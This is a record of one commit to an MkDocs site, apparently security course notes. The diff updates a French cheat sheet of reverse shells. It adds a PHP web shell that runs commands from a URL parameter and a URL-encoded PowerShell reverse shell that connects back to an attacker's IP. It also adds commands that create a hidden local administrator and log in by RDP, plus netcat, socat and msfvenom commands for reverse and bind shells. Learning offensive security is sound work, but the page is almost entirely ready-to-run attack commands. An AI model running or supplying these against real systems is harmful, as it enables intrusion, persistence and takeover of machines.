

Before and after one commit to NathanEtinzon/CEFIM, an MkDocs documentation site: the page built from docs/Reverse_Shell_Cheat_Sheet.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Maj cheat sheet

```diff
--- a/docs/Reverse_Shell_Cheat_Sheet.md
+++ b/docs/Reverse_Shell_Cheat_Sheet.md
@@ -1,33 +1,57 @@
 # Cheat Sheet Reverse Shell
 
-## WebShell
+# WebShell
 
-Copier puis modifier /usr/share/webshells/php/php-reverse-shell.php
-
+**Linux**
+>- Copier puis modifier /usr/share/webshells/php/php-reverse-shell.php
 `$ip = '<IP ATTAQUANT>';`
 `$port = <PORT>;`
+>- Puis upload sur le site et accéder au fichier
 
-Puis upload sur le site et accéder au fichier
+**Windows**
+>- Créer un fichier php avec la ligne suivante :
+`<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>`
 
-## Netcat Reverse Shell
+>- Entrer l'URL du fichier avec l'argument "cmd" et la valeur:
+powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<**IP**>%27%2C<**PORT**>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22
 
+*Alors oui, c'est illisible parce que c'est encodé pour un URL mais c'est qu'il faut retenir c'est qu'il n'y a qu'à changer l'ip et le port (en gras) avant de charger l'URL*
+
+>- On se log avec son listener préféré puis on se créer un utlisateur qu'on met dans le groupe admin
+`net user <utlisateur> <mdp> /add`
+`net localgroup administrators <utlisateur> /add`
+
+>- Plus qu'à se log en RDP
+`sudo apt install freerdp2-x11`
+`xfreerdp /v:<IP CIBLE> /u:<utlisateur> /p:<mdp>`
+
+# Netcat Reverse Shell
 **Attaquant**
 `nc -lvnp <PORT>`
 
 **Stabilisation**
-`python3 -c 'import pty;pty.spawn("/bin/bash")'`	(ou python/python2/python3)
+`python3 -c 'import pty;pty.spawn("/bin/bash")'` (ou python/python2/python3)
 `export TERM=xterm`
 `CTRL+Z`
 `stty raw -echo; fg`
 
-## Socat Basic Reverse Shell
+# Socat Basic Reverse Shell
 
 **Attaquant**
-`socat TCP-L:<PORT> EXEC:"bash -li"`
+`socat TCP-L:<PORT> -` => Universel
+`socat TCP-L:<PORT> EXEC:"bash -li"` => Linux
+`socat TCP-L:<PORT> EXEC:powershell.exe,pipes` => Windows
 
 **Cible**
-`socat TCP:<IP ATTAQUANT>:<PORT> EXEC:"bash -li"`
+`socat TCP:<IP ATTAQUANT>:<PORT> EXEC:"bash -li"` => Linux
+`socat TCP-L:<IP ATTAQUANT>:<PORT> EXEC:powershell.exe,pipes` => Windows
 
-## Socat Extended Reverse Shell
+*Pour une cible Windows, j'ai trouvé plus simple de mettre en place un bind shell plutôt qu'un reverse car powershell.exe n'est pas dans le path/variable d'envirionemment sous Linux*
 
-`socat TCP:10.11.68.227:8081 EXEC:"bash -li",pty,stderr,sigint,setsid,sane`
+# Socat Extended Reverse Shell
+`socat TCP:<IP ATTAQUANT>:<PORT> EXEC:"bash -li",pty,stderr,sigint,setsid,sane`
+
+
+# Merterpreter
+`msfvenom --list payload`
+`msfvenom -p <PAYLOAD> -f <FORMAT> -o <OUTPUT> LHOST=<IP ATTAQUANT> LPORT=<PORT>`
```
